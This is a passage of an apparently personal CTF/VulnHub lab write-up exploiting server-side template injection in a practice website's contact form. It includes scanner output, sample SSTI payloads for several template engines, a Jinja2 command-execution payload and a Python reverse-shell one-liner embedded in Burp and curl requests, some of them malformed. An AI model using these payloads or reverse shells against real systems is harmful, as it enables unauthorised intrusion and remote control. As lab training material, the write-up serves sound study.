								<ul class="blog-meta">
									<li>
										<span class="meta-value">by</span
										><a href="[#author](view-source:http://192.168.56.123/#author)"> Elizabeth</a>
									</li>
								</ul>
								<div class="date">
									<p>20 March, 2021</p>
								</div>
							</div>
						</div>
					</div>
				</div>

				<div class="col-lg-4 col-md-6 item mt-lg-0 mt-5">
					<div class="card">
						<div class="card-header p-0 position-relative">
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="zoom d-block">
								
							</a>
						</div>
						<div class="card-body blog-details">
							<div
								class="price-review d-flex justify-content-between mb-1 align-items-center"
							>
								<p>Web Development</p>
							</div>
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="blog-desc"
								>How to start a profitable home-based business
								within mins?</a
							>
						</div>
						<div class="card-footer">
							<div class="author align-items-center">
								<a href="[#author](view-source:http://192.168.56.123/#author)" class="post-author">
									
								</a>
								<ul class="blog-meta">
									<li>
										<span class="meta-value">by</span
										><a href="[#author](view-source:http://192.168.56.123/#author)"> Charlotte</a>
									</li>
								</ul>
								<div class="date">
									<p>20 March, 2021</p>
								</div>
							</div>
						</div>
					</div>
				</div>
			</div>
		</div>
	</div>
</section>
<section class="w3l-project py-5" id="subscribe">
	<div class="container py-md-5 py-sm-4 py-2">
		<div class="bottom-info">
			<div class="header-section text-center">
				<h3 class="title-big">Let’s find out how to work together</h3>
				<p class="mt-3 pr-lg-5">
					Lorem ipsum dolor sit amet elit. Velit beatae rem ullam
					dolore nisi esse quasi, sit amet. Lorem ipsum dolor sit amet
					elit.
				</p>
			</div>
			<form action="[#](view-source:http://192.168.56.123/#)" class="subscribe mt-5" method="post">
				<div class="input-group-text">
					<span class="fa fa-paper-plane"></span>
				</div>
				<input
					type="email"
					name="email"
					placeholder="Your Email Address"
					required=""
				/>
				<button class="btn btn-style btn-primary">Subscibe</button>
			</form>
		</div>
	</div>
</section>

<!-- footer -->
<footer class="w3l-footer-29-main">
    <div class="footer-29 py-5">
      <div class="container py-md-4">
  
        <div class="row footer-top-29">
  
          <div class="col-lg-4 col-md-6 footer-list-29 footer-1">
            <div class="footer-logo mb-4">
              <a class="navbar-brand" href="[/](view-source:http://192.168.56.123/)">
                <span class="fa fa-align-right"></span> Corp Vision <span class="logo">Vision to your Future</span></a>
            </div>
            <p>Lorem ipsum viverra feugiat. Pellen tesque libero ut justo, ultrices in ligula. Semper at
              tempufddfel. Lorem ipsum dolor sit amet Semper at elit team advisors.</p>
            <div class="main-social-footer-29 mt-md-4 mt-3">
              <a href="[#facebook](view-source:http://192.168.56.123/#facebook)" class="facebook"><span class="fa fa-facebook"></span></a>
              <a href="[#twitter](view-source:http://192.168.56.123/#twitter)" class="twitter"><span class="fa fa-twitter"></span></a>
              <a href="[#instagram](view-source:http://192.168.56.123/#instagram)" class="instagram"><span class="fa fa-instagram"></span></a>
              <a href="[#linkedin](view-source:http://192.168.56.123/#linkedin)" class="linkedin"><span class="fa fa-linkedin"></span></a>
            </div>
          </div>
  
          <div class="col-lg-4 col-md-6 footer-list-29 footer-1 pr-lg-5 mt-md-0 mt-5">
            <h6 class="footer-title-29">Contact Info </h6>
            <p class="mb-2">Address : Corp Vision, 343 marketing, #21 cravel 1st lane street, NY - 62617.</p>
            <p class="mb-2">Phone Number : <a href="[tel:+1(21) 234 4567](tel:+1\(21\) 234 4567)">+1(21) 234 4567</a></p>
            <p class="mb-2">Email : <a href="[mailto:info@example.com](mailto:info@example.com)">info@example.com</a></p>
            <p>Support : <a href="[mailto:info@support.com](mailto:info@support.com)">info@support.com</a></p>
          </div>
  
          <div class="col-lg-2 col-md-6 col-sm-5 col-6 footer-list-29 footer-2 mt-lg-0 mt-5">
            <ul>
              <h6 class="footer-title-29">Services</h6>
              <li><a href="[#url](view-source:http://192.168.56.123/#url)">UI/UX Design</a></li>
              <li><a href="[#url](view-source:http://192.168.56.123/#url)">Creative agency</a></li>
              <li><a href="[#url](view-source:http://192.168.56.123/#url)">Positive thinking</a></li>
              <li><a href="[#url](view-source:http://192.168.56.123/#url)">Marketing service</a></li>
              <li><a href="[#url](view-source:http://192.168.56.123/#url)">Creative agency</a></li>
            </ul>
          </div>
  
          <div class="col-lg-2 col-md-6 col-sm-5 col-6 footer-list-29 footer-2 mt-lg-0 mt-5">
            <ul>
              <h6 class="footer-title-29">Company</h6>
              <li><a href="[/about](view-source:http://192.168.56.123/about)"> About company</a></li>
              <li><a href="[/#blog](view-source:http://192.168.56.123/#blog)">Latest Blog posts</a></li>
              <li><a href="[/#gallery](view-source:http://192.168.56.123/#gallery)">Our Gallery </a></li>
              <li><a href="[#vision](view-source:http://192.168.56.123/#vision)">Vision to future</a></li>
              <li><a href="[contact](view-source:http://192.168.56.123/contact)">Get in touch</a></li>
            </ul>
          </div>
  
        </div>
  
      </div>
    </div>
    <!-- copyright -->
    <section class="w3l-copyright text-center">
      <div class="container">
        <p class="copy-footer-29">© 2021 Corp Vision. All rights reserved. Design by <a href="[https://w3layouts.com/](view-source:https://w3layouts.com/)"
            target="_blank">
            W3Layouts</a></p>
      </div>
  
      <!-- move top -->
      <button onclick="topFunction()" id="movetop" title="Go to top">
        &#10548;
      </button>
      <script>
        // When the user scrolls down 20px from the top of the document, show the button
        window.onscroll = function () {
          scrollFunction()
        };
  
        function scrollFunction() {
          if (document.body.scrollTop > 20 || document.documentElement.scrollTop > 20) {
            document.getElementById("movetop").style.display = "block";
          } else {
            document.getElementById("movetop").style.display = "none";
          }
        }
  
        // When the user clicks on the button, scroll to the top of the document
        function topFunction() {
          document.body.scrollTop = 0;
          document.documentElement.scrollTop = 0;
        }
      </script>
      <!-- /move top -->
    </section>
    <!-- //copyright -->
  </footer>
  <!-- //footer -->
  
  
  <!-- Template JavaScript -->
  <script src="[/static/assets/js/jquery-3.3.1.min.js](view-source:http://192.168.56.123/static/assets/js/jquery-3.3.1.min.js)"></script>
  <script src="[/static/assets/js/theme-change.js](view-source:http://192.168.56.123/static/assets/js/theme-change.js)"></script>
  
  <!-- libhtbox -->
  <script src="[/static/assets/js/lightbox-plus-jquery.min.js](view-source:http://192.168.56.123/static/assets/js/lightbox-plus-jquery.min.js)"></script>
  <!-- libhtbox -->
  
  <!-- banner slick slider -->
  <script src="[/static/assets/js/slick.js](view-source:http://192.168.56.123/static/assets/js/slick.js)"></script>
  <script src="[/static/assets/js/script.js](view-source:http://192.168.56.123/static/assets/js/script.js)"></script>
  <!-- //banner slick slider -->
  
  <!-- magnific popup -->
  <script src="[/static/assets/js/jquery.magnific-popup.min.js](view-source:http://192.168.56.123/static/assets/js/jquery.magnific-popup.min.js)"></script>
  <script>
    $(document).ready(function () {
      $('.popup-with-zoom-anim').magnificPopup({
        type: 'inline',
  
        fixedContentPos: false,
        fixedBgPos: true,
  
        overflowY: 'auto',
  
        closeBtnInside: true,
        preloader: false,
  
        midClick: true,
        removalDelay: 300,
        mainClass: 'my-mfp-zoom-in'
      });
  
      $('.popup-with-move-anim').magnificPopup({
        type: 'inline',
  
        fixedContentPos: false,
        fixedBgPos: true,
  
        overflowY: 'auto',
  
        closeBtnInside: true,
        preloader: false,
  
        midClick: true,
        removalDelay: 300,
        mainClass: 'my-mfp-slide-bottom'
      });
    });
  </script>
  <!-- //magnific popup -->
  
  <!-- script for tesimonials carousel slider -->
  <script src="[/static/assets/js/owl.carousel.js](view-source:http://192.168.56.123/static/assets/js/owl.carousel.js)"></script>
  
  <script>
    $(document).ready(function () {
      $("#owl-demo1").owlCarousel({
        loop: true,
        margin: 20,
        nav: false,
        responsiveClass: true,
        responsive: {
          0: {
            items: 1,
            nav: false
          },
          768: {
            items: 1,
            nav: false
          },
          1000: {
            items: 1,
            nav: false,
            loop: false
          }
        }
      })
    })
  </script>
  <!-- //script for tesimonials carousel slider -->
  
  <!-- disable body scroll which navbar is in active -->
  <script>
    $(function () {
      $('.navbar-toggler').click(function () {
        $('body').toggleClass('noscroll');
      })
    });
  </script>
  <!-- disable body scroll which navbar is in active -->
  
  <!--/MENU-JS-->
  <script>
    $(window).on("scroll", function () {
      var scroll = $(window).scrollTop();
  
      if (scroll >= 80) {
        $("#site-header").addClass("nav-fixed");
      } else {
        $("#site-header").removeClass("nav-fixed");
      }
    });
  
    //Main navigation Active Class Add Remove
    $(".navbar-toggler").on("click", function () {
      $("header").toggleClass("active");
    });
    $(document).on("ready", function () {
      if ($(window).width() > 991) {
        $("header").removeClass("active");
      }
      $(window).on("resize", function () {
        if ($(window).width() > 991) {
          $("header").removeClass("active");
        }
      });
    });
  </script>
  <!--//MENU-JS-->
  
  <!-- Search -->
  <script>
    $('.control').click(function () {
      $('body').addClass('search-active');
      $('.input-search').focus();
    });
  
    $('.icon-close').click(function () {
      $('body').removeClass('search-active');
    });
  </script>
  <!-- //Search -->
  
  <script src="[/static/assets/js/bootstrap.min.js](view-source:http://192.168.56.123/static/assets/js/bootstrap.min.js)"></script>
  
  
  </body>
  
  </html>
```

Honestly, nothing looks like clues?.... Just a red herring? üêü

Wappalyzer is also worth digging! To get a better sense of the tech-stack used to build this website


### So far so good, but we are not done, time to bring up the big guns! 💥💨🔫


## Directory Busting - Gobuster
#gobuster #DirectoryBusting

Let's now use gobuster to find any hidden pages on the website, we will use this command:
`gobuster dir -u http://192.168.56.123/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`


We get a handful of results, but the `/static` seems kind of suspicious.

This is how it looks on the browser:



So we have access to all the `CSS, fonts, images and javascript`
I think the js/ folder is worth a deeper look 🔎📁📄📂📄🔍


Anyway, after some deep digging to all the files, nothing seems to be able to give us a foothold 🙃🥲🥱😴😌😔🫠

## Acunetix
#Acunetix #Enumerate #web #Vulnerability 

First time trying out this fancy tool, so let's have a description generated from ChatGPT:

**Acunetix** is a widely‚Äëused **automated web application security scanner** designed to detect vulnerabilities in websites and web apps. Here's a compact overview:

---

### 🛡️ What It Does

- **Deep scanning & crawling** of web applications, including single‚Äëpage apps and complex JavaScript flows ([acunetix.com](https://www.acunetix.com/support/docs/introduction/?utm_source=chatgpt.com "Introduction to Acunetix"))
- Detects a wide range of vulnerabilities like SQL injection, XSS, CSRF, file inclusions, and other issues often highlighted in OWASP Top 10 ([acunetix.com](https://www.acunetix.com/?utm_source=chatgpt.com "Acunetix | Web Application Security Scanner"))
- Includes **AcuSensor** (IAST technology), which injects lightweight sensors into PHP/.NET/Java apps to provide **precise vulnerability context**, reducing false positives and showing lines of code ([acunetix.com](https://www.acunetix.com/support/docs/introduction/?utm_source=chatgpt.com "Introduction to Acunetix"))
    

---

### ‚ö° Key Features

- **High speed & accuracy**: Built in C++, it leverages AI-powered SmartScan to detect vulnerabilities quickly with minimal noise
- **CI/CD integration**: Supports DevSecOps pipelines—integrates with Jenkins, GitHub, JIRA, etc., enabling automated scanning workflows
- **Reporting & compliance**: Offers developer- and executive-level reports, plus compliance templates for standards such as PCI DSS and ISO 27001
    

---

### üåç Deployment Options

- Available as **on-premise** (Windows/Linux) or **cloud-hosted**
- Offers scalable scanning through multiple engine instances and supports both small startups and large enterprises ([acunetix.com](https://www.acunetix.com/?utm_source=chatgpt.com "Acunetix | Web Application Security Scanner"))
    

---

### Who Uses It?

- Suitable for **security engineers**, **DevSecOps** teams, **penetration testers**, and compliance-focused teams
- Typically used in environments needing **continuous web security assurance** and high-confidence vulnerability detection
    

---

### üîç In Summary

Acunetix combines traditional **black‚Äëbox scanning** with **IAST (AcuSensor)** to deliver a fast, accurate, and developer-friendly tool for discovering and managing web application vulnerabilities. 
Perfect for embedding in development pipelines and scaling across teams.

"**_Acunetix_** stands as a robust vulnerability assessment tool utilized by security experts to pinpoint and resolve security flaws in web applications and sites. It aids organizations in safeguarding their digital assets by detecting common vulnerabilities like _SQL injection_ and _cross-site scripting (XSS)_, among others, which could potentially be exploited by malicious actors. With its comprehensive scanning capabilities, detailed reports, and remediation guidance, Acunetix strengthens the overall security stance of web-based systems."

---


- Time to use the tool!

These are my results


- Cross site scripting
- Server-side template injection

Alright, we can definitely in our case use the Server-side template injection (SSTI) vulnerability to gain a foothold, let's finish this chapter with some text generated about SSTI

Here's a clear and practical explanation of **Server-Side Template Injection (SSTI)** — including what it is, how it happens, and examples in real-world template engines.

---

## 🧠 What is SSTI?
#ServerSideTemplateInjection #SSTI

**Server-Side Template Injection (SSTI)** occurs when **user input is injected directly into a server-side template** (like Jinja2, Twig, etc.) without proper sanitization. If exploited, attackers can **execute arbitrary code on the server** — often leading to **remote code execution (RCE)**.

---

## 📦 Why It Happens

Many web frameworks allow dynamic rendering of HTML using templates (e.g., `{{ name }}`). If user input gets passed into the template context **without sanitizing**, an attacker can inject malicious template code.

---

## üí• Real Examples in Different Template Engines

---

### üî∂ 1. **Python Jinja2 (Flask)**

**Vulnerable code:**

```python
from flask import Flask, request, render_template_string

@app.route('/greet')
def greet():
    name = request.args.get('name', '')
    return render_template_string(f"Hello {name}")
```

**Payload:**

```
/greet?name={{7*7}}
```

**Result:**

```
Hello 49
```

**Malicious payload (potential RCE):**

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

---

### üü® 2. **PHP with Twig**

**Vulnerable code:**

```php
$tpl = new \Twig\Environment(...);
echo $tpl->render('Hello ' . $_GET['name']);
```

**Payload:**

```
?name={{7*7}}
```

**Result:**

```
Hello 49
```

**More advanced payload:**

```twig
{{ dump(app.request.server.all) }}
```

Can reveal server variables and environment settings.

---

### 🟦 3. **Java (Thymeleaf or FreeMarker)**

In Java, the template engines are more strict, but misconfigurations still open up for injections.

**FreeMarker payload:**

```freemarker
${7*7}
```

**Advanced (if sandboxing is off):**

```freemarker
${"freemarker.template.utility.Execute"?new()("id")}
```

---

## üîß Detection Tips

- Use fuzzing: inject `{{7*7}}`, `${7*7}`, etc., and observe if output is evaluated.
- Try known template syntax per engine.
- Use tools like **Burp Suite**, **FFUF**, or **tplmap** (Python tool for SSTI detection and exploitation).
    

---

## üîí How to Prevent SSTI

- **Never pass unsanitized user input into templates**
- Use whitelists and strong input validation
- Use template engine sandboxing where possible
- Consider escaping template expressions if you must print user input (e.g., `{{ name | escape }}`)
    

---

## üß™ Bonus: Tool Example

**Tplmap** – a CLI tool to detect and exploit SSTI:

```bash
python tplmap.py -u http://example.com/page?name=John
```

---
---
---

# Foothold 🦶

The exact location of the SSTI vulnerability can be found on the `contact/` page. Let's verify it!
The **`Name`** field does not get sanitized, you can try add `{{1337*1337}}` to multiply two numbers,  if it works, The evidence would be the number 1.787.569.

- When we finish filling the form, we can now confirm the SSTI is working. Instead of showing the input, it calculated the two numbers multiplying instead on the "greeting message"


---

## Burp Suite - Gain Foothold using Python-based engine Jinja2
#BurpSuite #Foxy #Python #Jinja2 #Intercept #Proxy 

Use the "Proxy tab" and hit "Intercept"
Use the Foxy Proxy extension

```
Yeah go fuck yourself... Why is copy-paste not working anymore yet again between my host and the VM?? 
it's seem to be broken half of the time I boot!? How!? Why? Greatest mystery of this universe/dimension üòß
```

Alright... Calm down my dear... Have a coffee... Let's try again... 🫂❤️‍🩹

### Request
```http
POST /contact HTTP/1.1
Host: 192.168.56.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: http://192.168.56.123
Connection: keep-alive
Referer: http://192.168.56.123/contact
Upgrade-Insecure-Requests: 1

Name=%7B%7B1337*1337%7D%7D&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage
```

### Response
```html
HTTP/1.1 200 OK
Date: Sun, 27 Jul 2025 08:48:31 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Content-Length: 11185


<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <title>Corp Vision - Corporate Category Bootstrap Responsive Template | Home : W3layouts</title>

    <!-- google fonts -->
    <link href="//fonts.googleapis.com/css2?family=Jost:wght@300;400;600&display=swap" rel="stylesheet">
    
    <!-- Template CSS -->
    <link rel="stylesheet" href="/static/assets/css/style-starter.css">
    
  </head>
  <body>
<!--header-->
<header id="site-header" class="fixed-top">
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-dark stroke">
        <h1>
          <a class="navbar-brand" href="index.html">
            <span class="fa fa-align-right"></span> Corp Vision <span class="logo">Vision to your Future</span></a>
        </h1>
  
        <!-- if logo is image enable this   
          <a class="navbar-brand" href="#index.html">
              
          </a> -->
        <button class="navbar-toggler  collapsed bg-gradient" type="button" data-toggle="collapse"
          data-target="#navbarTogglerDemo02" aria-controls="navbarTogglerDemo02" aria-expanded="false"
          aria-label="Toggle navigation">
          <span class="navbar-toggler-icon fa icon-expand fa-bars"></span>
          <span class="navbar-toggler-icon fa icon-close fa-times"></span>
          </span>
        </button>
  
        <div class="collapse navbar-collapse" id="navbarTogglerDemo02">
          <ul class="navbar-nav mx-lg-auto">
            <li class="nav-item active">
              <a class="nav-link" href="/">Home <span class="sr-only">(current)</span></a>
            </li>
            <li class="nav-item @@about__active">
              <a class="nav-link" href="/about">About</a>
            </li>
            <li class="nav-item @@services__active">
              <a class="nav-link" href="/services">Services</a>
            </li>
            <li class="nav-item @@contact__active">
              <a class="nav-link" href="/contact">Contact</a>
            </li>
          </ul>
          </div>
  
          <!--/search-right-->
          <div class="header-search">
            <div class='control mr-3'>
              <div class='btn-material'>
                <i class='fa fa-search icon-material-search'></i>
              </div>
            </div>
            <!-- full screen form controls -->
            <i class='icon-close fa fa-close material-icons'></i>
            <form action="error.html" method="GET" class='search-input'>
              <input class='input-search' placeholder='Start Typing' type='text'>
            </form>
          </div>
          <!--//search-right-->

          <!-- toggle switch for light and dark theme -->
          <div class="mobile-position">
            <nav class="navigation">
              <div class="theme-switch-wrapper">
                <label class="theme-switch" for="checkbox">
                  <input type="checkbox" id="checkbox">
                  <div class="mode-container py-1">
                    <i class="gg-sun"></i>
                    <i class="gg-moon"></i>
                  </div>
                </label>
              </div>
            </nav>
          </div>
          <!-- //toggle switch for light and dark theme -->
      </nav>

    </div>
  </header>
  <!--/header-->

<div class="container my-5">
    <div class="alert alert-success" role="alert">
        <h4 class="alert-heading">Hey 1787569,</h4>
        <p>Thanks for Contacting us, We will get back in touch As Soon As Possible.</p>
        <hr>
        <p class="mb-0"><b>NOTE:</b> Our Server is facing some Interal Error, so it might take some time to proceed your request.</p>
    </div>
</div>

<!-- footer -->
<footer class="w3l-footer-29-main">
    <div class="footer-29 py-5">
      <div class="container py-md-4">
  
        <div class="row footer-top-29">
  
          <div class="col-lg-4 col-md-6 footer-list-29 footer-1">
            <div class="footer-logo mb-4">
              <a class="navbar-brand" href="/">
                <span class="fa fa-align-right"></span> Corp Vision <span class="logo">Vision to your Future</span></a>
            </div>
            <p>Lorem ipsum viverra feugiat. Pellen tesque libero ut justo, ultrices in ligula. Semper at
              tempufddfel. Lorem ipsum dolor sit amet Semper at elit team advisors.</p>
            <div class="main-social-footer-29 mt-md-4 mt-3">
              <a href="#facebook" class="facebook"><span class="fa fa-facebook"></span></a>
              <a href="#twitter" class="twitter"><span class="fa fa-twitter"></span></a>
              <a href="#instagram" class="instagram"><span class="fa fa-instagram"></span></a>
              <a href="#linkedin" class="linkedin"><span class="fa fa-linkedin"></span></a>
            </div>
          </div>
  
          <div class="col-lg-4 col-md-6 footer-list-29 footer-1 pr-lg-5 mt-md-0 mt-5">
            <h6 class="footer-title-29">Contact Info </h6>
            <p class="mb-2">Address : Corp Vision, 343 marketing, #21 cravel 1st lane street, NY - 62617.</p>
            <p class="mb-2">Phone Number : <a href="tel:+1(21) 234 4567">+1(21) 234 4567</a></p>
            <p class="mb-2">Email : <a href="mailto:info@example.com">info@example.com</a></p>
            <p>Support : <a href="mailto:info@support.com">info@support.com</a></p>
          </div>
  
          <div class="col-lg-2 col-md-6 col-sm-5 col-6 footer-list-29 footer-2 mt-lg-0 mt-5">
            <ul>
              <h6 class="footer-title-29">Services</h6>
              <li><a href="#url">UI/UX Design</a></li>
              <li><a href="#url">Creative agency</a></li>
              <li><a href="#url">Positive thinking</a></li>
              <li><a href="#url">Marketing service</a></li>
              <li><a href="#url">Creative agency</a></li>
            </ul>
          </div>
  
          <div class="col-lg-2 col-md-6 col-sm-5 col-6 footer-list-29 footer-2 mt-lg-0 mt-5">
            <ul>
              <h6 class="footer-title-29">Company</h6>
              <li><a href="/about"> About company</a></li>
              <li><a href="/#blog">Latest Blog posts</a></li>
              <li><a href="/#gallery">Our Gallery </a></li>
              <li><a href="#vision">Vision to future</a></li>
              <li><a href="contact">Get in touch</a></li>
            </ul>
          </div>
  
        </div>
  
      </div>
    </div>
    <!-- copyright -->
    <section class="w3l-copyright text-center">
      <div class="container">
        <p class="copy-footer-29">© 2021 Corp Vision. All rights reserved. Design by <a href="https://w3layouts.com/"
            target="_blank">
            W3Layouts</a></p>
      </div>
  
      <!-- move top -->
      <button onclick="topFunction()" id="movetop" title="Go to top">
        &#10548;
      </button>
      <script>
        // When the user scrolls down 20px from the top of the document, show the button
        window.onscroll = function () {
          scrollFunction()
        };
  
        function scrollFunction() {
          if (document.body.scrollTop > 20 || document.documentElement.scrollTop > 20) {
            document.getElementById("movetop").style.display = "block";
          } else {
            document.getElementById("movetop").style.display = "none";
          }
        }
  
        // When the user clicks on the button, scroll to the top of the document
        function topFunction() {
          document.body.scrollTop = 0;
          document.documentElement.scrollTop = 0;
        }
      </script>
      <!-- /move top -->
    </section>
    <!-- //copyright -->
  </footer>
  <!-- //footer -->
  
  
  <!-- Template JavaScript -->
  <script src="/static/assets/js/jquery-3.3.1.min.js"></script>
  <script src="/static/assets/js/theme-change.js"></script>
  
  <!-- libhtbox -->
  <script src="/static/assets/js/lightbox-plus-jquery.min.js"></script>
  <!-- libhtbox -->
  
  <!-- banner slick slider -->
  <script src="/static/assets/js/slick.js"></script>
  <script src="/static/assets/js/script.js"></script>
  <!-- //banner slick slider -->
  
  <!-- magnific popup -->
  <script src="/static/assets/js/jquery.magnific-popup.min.js"></script>
  <script>
    $(document).ready(function () {
      $('.popup-with-zoom-anim').magnificPopup({
        type: 'inline',
  
        fixedContentPos: false,
        fixedBgPos: true,
  
        overflowY: 'auto',
  
        closeBtnInside: true,
        preloader: false,
  
        midClick: true,
        removalDelay: 300,
        mainClass: 'my-mfp-zoom-in'
      });
  
      $('.popup-with-move-anim').magnificPopup({
        type: 'inline',
  
        fixedContentPos: false,
        fixedBgPos: true,
  
        overflowY: 'auto',
  
        closeBtnInside: true,
        preloader: false,
  
        midClick: true,
        removalDelay: 300,
        mainClass: 'my-mfp-slide-bottom'
      });
    });
  </script>
  <!-- //magnific popup -->
  
  <!-- script for tesimonials carousel slider -->
  <script src="/static/assets/js/owl.carousel.js"></script>
  
  <script>
    $(document).ready(function () {
      $("#owl-demo1").owlCarousel({
        loop: true,
        margin: 20,
        nav: false,
        responsiveClass: true,
        responsive: {
          0: {
            items: 1,
            nav: false
          },
          768: {
            items: 1,
            nav: false
          },
          1000: {
            items: 1,
            nav: false,
            loop: false
          }
        }
      })
    })
  </script>
  <!-- //script for tesimonials carousel slider -->
  
  <!-- disable body scroll which navbar is in active -->
  <script>
    $(function () {
      $('.navbar-toggler').click(function () {
        $('body').toggleClass('noscroll');
      })
    });
  </script>
  <!-- disable body scroll which navbar is in active -->
  
  <!--/MENU-JS-->
  <script>
    $(window).on("scroll", function () {
      var scroll = $(window).scrollTop();
  
      if (scroll >= 80) {
        $("#site-header").addClass("nav-fixed");
      } else {
        $("#site-header").removeClass("nav-fixed");
      }
    });
  
    //Main navigation Active Class Add Remove
    $(".navbar-toggler").on("click", function () {
      $("header").toggleClass("active");
    });
    $(document).on("ready", function () {
      if ($(window).width() > 991) {
        $("header").removeClass("active");
      }
      $(window).on("resize", function () {
        if ($(window).width() > 991) {
          $("header").removeClass("active");
        }
      });
    });
  </script>
  <!--//MENU-JS-->
  
  <!-- Search -->
  <script>
    $('.control').click(function () {
      $('body').addClass('search-active');
      $('.input-search').focus();
    });
  
    $('.icon-close').click(function () {
      $('body').removeClass('search-active');
    });
  </script>
  <!-- //Search -->
  
  <script src="/static/assets/js/bootstrap.min.js"></script>
  
  
  </body>
  
  </html>
```


## Sending a payload 📦🧳🎁

try edit the request in BurpSuite for the Name value:
Use this to confirm, by calling for the ID command on the server, if the exploit is working

```js
name={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

Response "Hey uid=33(www-data) gid=33(www-data) groups=33(www-data)"
```

### We can confirm: Code Execution is possible ✅☑️✔️

Now let's do something more malice and use a **reverse shell command**.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

This reverse shell one-liner here written in Python 3. This is a common payload used in **CTFs, VulnHub, or penetration testing labs** when gaining code execution and attempting to establish a shell back to your attacking machine.
### 🔁 Replace `"YOUR IP"`: 192.168.56.123

Make sure to replace `"YOUR IP"` with your actual IP (e.g., `192.168.56.1` if you're on a host-only VirtualBox network), and have **Netcat** listening:

```bash
nc -lvnp 4444
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

```python
name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'').read()}}
```

This command does not work in practice, some kind of encoding is needed, we can use the website https://www.urlencoder.org/ to encode the payload.

#### Surprise this does not work either!... But it was worth a try! 🎁

### using curl

```
curl -X POST http://192.168.56.123/contact \
POST /contact HTTP/1.1
Host: 192.168.56.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 533
Origin: http://192.168.56.123
Connection: keep-alive
Referer: http://192.168.56.123/contact
Upgrade-Insecure-Requests: 1

Name={{request.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.123%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%27%27%29.read%28%29}}&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage

```

```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.123%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%27%27%29.read%28%29}}&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```

```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'').read()}}" \
